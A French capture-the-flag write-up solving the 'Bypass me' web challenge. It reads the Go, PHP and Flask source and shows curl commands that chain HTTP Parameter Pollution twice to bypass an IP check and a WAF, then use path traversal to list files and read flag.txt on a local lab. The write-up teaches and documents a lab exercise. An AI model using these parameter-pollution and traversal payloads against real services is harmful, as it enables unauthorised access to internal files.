

# Writeup 🌶️🌶️ Bypass me

Une application web en GO qui interroge un serveur de news en passant par un proxy interne.

Bienvenue dans le monde hétérogène du web =)

## Analyse du code

Voici une version simpliée du code en enlevant les parties non utiles au challenge :
```go

func proxify(uri string) string {
    resp, _ := http.Get("http://proxy.internal" + uri)
    defer resp.Body.Close()
    body, _ := ioutil.ReadAll(resp.Body);
    return string(body)
}

func main() {
    http.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
        if (r.URL.Query().Get("proxydebug") != "yesplz") {
            // ...
            return
        }
        // ...
        if r.URL.Query().Get("token") != "" && ip != "127.128.129.130" {
            fmt.Fprintf(w, "Not authorized."); return
        }
        fmt.Fprintf(w, proxify(r.RequestURI))
    })

    http.HandleFunc("/news", func(w http.ResponseWriter, r *http.Request) {
        file := r.URL.Query().Get("read");
        if strings.Contains(file, "..") || strings.Contains(file, "/") || strings.Contains(file, ";") || strings.Contains(file, "&") || strings.Contains(file, "|") {
            fmt.Fprintf(w, "Attack detected."); return
        }

        // ..
        if file == "" {
            fmt.Fprintf(w, proxify("/?token="+os.Getenv("PROXY_SECRET")+"&url=http://fileserver.internal/ls?dir=news/")); return 
        }
        fmt.Fprintf(w, proxify("/?token="+os.Getenv("PROXY_SECRET")+"&url=http://fileserver.internal/cat?file=news/"+file))
    })
}
```

Il y a deux routes sur l'application GO

1. `/` : permet de proxifier l'URI de la requête via la fonction `proxify` qui transmet la requête au serveur `http://proxy.internal`. Deux paramètres GET sont pris en charge par cette route : `proxydebug` et `token`
2. `/news` : permet de récupérer une liste de news et d'afficher les news du serveur `http://filserver.internal`. Le paramètre `read` filtre certains caractères tels que `..`, `/`, peut-être pour mitiger un Path Traversal ?

Cette première analyse nous montre plusieurs problématique :
- on ne connait pas la valeur de la variable d'environnement `PROXY_SECRET`
- on ne peut pas passet le paramètre `token` au proxy `http://proxy.internal` car notre IP n'est pas whitelistée

## Découverte du service proxy.internal

En activant uniquement le mode debug depuis l'application GO, on atterrit sur le code source de `proxy.internal`

> http://127.0.0.1:45003/?proxydebug=yesplz

```php
<?php

ini_set('display_errors','Off');

function get_request($url) {
    $r = file_get_contents($url, false, stream_context_create(['http' => ['ignore_errors' => true, 'follow_location' => false]]));
    //(...)
    return "<pre>\n".htmlentities($r)."</pre>\n";
}

function waf($url) {
    $components = parse_url($url);
    if ($components['scheme'] !== 'http' && $components['scheme'] !== 'https')
        die('Ony http/https protocol are allowed.');
    
    parse_str($components['query'], $_get);
    foreach ($_get as $key => $value)
    {   
        foreach ([' ', '"', "'", '#', '--', '..', ';', '$', '<', '>'] as $illegal) {
            if (str_contains($value, $illegal))
                die('Attack detected.');
        }
    }
}

if (empty($_GET['url']) && empty($_GET['page']))
    (show_source(__FILE__) && die(''));

// (...)

if (empty($_GET['token']) || $_GET['token'] !== 'DEEZNUTS')
    die('Not authorized.');

waf($_GET['url']);
echo get_request($_GET['url']);
```

L'application GO agit en tant que middleware et transmet la requête à une autre application "proxy" développée PHP !

Analysons le code PHP :
- on connait désormais la valeur de `token`
- ce `token` est indispensable pour utiliser le paramètre  GET `url` qui permet d'interroger une URL arbitraire
- le paramètre `url` est analysé par la fonction `waf` qui parse l'URL et interdit l'utilisation de certains caractères pour des raisons de sécurité.

Essayons de faire une requête vers un site arbitraire depuis l'application GO :

```console
pun@ctf:~$ curl 'http://127.0.0.1:45003/?proxydebug=yesplz&token=DEEZNUTS&url=https://httpstat.us/200'
Not authorized.
```

Sans surprise, le code dans l'application GO ne nous laisse pas utiliser le paramètre `token` :
```go
        if r.URL.Query().Get("token") != "" && ip != "127.128.129.130" {
            fmt.Fprintf(w, "Not authorized."); return
        }
```

Il est possible de contourner cette restriction grâce au **HTTP Parameter Pollution** (HPP) : [HPP by swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/HTTP%20Parameter%20Pollution).

Les différents langages ne parsent pas les paramètres de la même manière. Qu'est-ce qui se passe quand on envoie `param=a&param=b` ?

| Technology                                      | Parsing Result          |outcome (param=)|
| ------------------                              |---------------          |:----------------:|
| Golang net/http - `r.URL.Query().Get("param")`  |First occurrence         |a                 |
| PHP/Apache `$_GET['param']`                     |Last occurrence          |b                 |

Dans notre cas, l'application GO va considérer la première valeur alors que PHP plutôt la dernière valeur. Et comme l'URI est transmise telle quelle au proxy avec `r.RequestURI`, il est possible d'exploiter le HPP.

```console
pun@ctf:~$ curl 'http://127.0.0.1:45003/?proxydebug=yesplz&token=&token=DEEZNUTS&url=https://httpstat.us/200'
<pre>200 OK</pre>
```

## Requêtes vers l'appli fileserver.internal

Maintenant qu'on peut requêter n'importe quelle URL, on peut accéder à `fileserver.internal` pour atterir cette fois-ci sur une application Flask en python.

> http://127.0.0.1:45003/?proxydebug=yesplz&token=&token=DEEZNUTS&url=http://fileserver.internal

```python
from flask import Flask, request, Response
import os

app = Flask(__name__)
root_directory = "files/"

@app.route('/')
def index():
    return Response(open(__file__).read(), mimetype='text/plain')

@app.route('/ls')
def ls():
    directory = root_directory
    if request.args.get("dir"):
        directory = directory + request.args.get("dir")
    return "\n".join(os.listdir(directory))

@app.route('/cat')
def fetch():
    if request.args.get("file"):
        return Response(open(root_directory + request.args.get("file")).read(), mimetype='text/plain')
    return "Missing filename."

if __name__ == "__main__":
    app.run(host="0.0.0.0", threaded=True)
```

C'est assez évident, il y a clairement un Path Traversal dans les routes `/ls` et `/cat`. 

Faisons le test en appelant l'URL `http://filserver.internal/ls?dir=..` depuis le proxy :

```console
pun@ctf:~$ curl 'http://127.0.0.1:45003/?proxydebug=yesplz&token=&token=DEEZNUTS&url=http://fileserver.internal/ls?dir=..'
Attack detected.
```

La requête a été bloquée par la fonction `waf` de l'application PHP en raison de la valeur du paramètre `dir=..`:

```php
function waf($url) {
    $components = parse_url($url);
    if ($components['scheme'] !== 'http' && $components['scheme'] !== 'https')
        die('Ony http/https protocol are allowed.');
    
    parse_str($components['query'], $_get);
    foreach ($_get as $key => $value)
    {   
        foreach ([' ', '"', "'", '#', '--', '..', ';', '$', '<', '>'] as $illegal) {
            if (str_contains($value, $illegal))
                die('Attack detected.');
        }
    }
}
```

## Double HPP FTW !

Revenons sur le tableau de comparaison de HPP en ajoutant Flask :

| Technology                                      | Parsing Result          |outcome (param=)|
| ------------------                              |---------------          |:----------------:|
| Golang net/http - `r.URL.Query().Get("param")`  |First occurrence         |a                 |
| PHP/Apache `$_GET['param']`                     |Last occurrence          |b                 |
| Python Flask                                    |First occurrence         |a                 |

Il y a encore une différence de parsing entre les applications PHP et Python (Flask).

Dans la fonction `waf` du proxy PHP, l'utilisation de la fonction `parse_str`  pour parser l'URL rend le HTTP Parameter Pollution possible.

[Documentation parse_str](https://www.php.net/manual/en/function.parse-str.php)

> Parses string as if it were the query string passed via a URL

Dans l'URL `http://filserver.internal/ls?dir=..&dir=foo`, l'appli Python considèrera la valeur `..` alors que PHP plutôt `foo`.

```console
pun@ctf:~$ curl 'http://127.0.0.1:45003/?proxydebug=yesplz&token=&token=DEEZNUTS&url=http://fileserver.internal/ls?dir=..%26dir=foo'
<pre>
files
flag.txt
app.py
</pre>
```

Il ne reste plus qu'à récupérer le flag !

```console
pun@ctf:~$ curl 'http://127.0.0.1:45003/?proxydebug=yesplz&token=&token=DEEZNUTS&url=http://fileserver.internal/cat?file=../flag.txt%26file=foo'
<pre>
brb{Thr33_Diff3rent_Languag3s_=_HPP_Nightmar3s}
</pre>
```

Pour finir, une petite illustration pour visualiser l'URL avec le double HTTP Parameter Pollution :

